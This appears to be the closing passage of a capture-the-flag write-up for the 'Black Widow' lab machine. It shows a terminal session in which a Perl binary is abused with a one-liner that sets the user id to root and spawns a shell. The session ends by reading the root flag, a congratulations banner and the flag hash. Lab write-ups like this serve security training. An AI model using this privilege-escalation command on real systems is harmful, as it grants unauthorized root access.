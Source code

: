 ## Perl - GTFObins

{% highlight sh %}
  viper@blackwidow:~$ /home/viper/backup_site/assets/vendor/weapon/arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
  #
  # cd /root
  # ls
  root.txt
  # cat root.txt


  ▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌
  ▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█
  ▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌
  ██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌
  ·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪


  Congrats!

  You've rooted Black Widow!

  0xJin - mindsflee

  0780eb289a44ba17ea499ffa6322b335


  # alienum
{% endhighlight %}
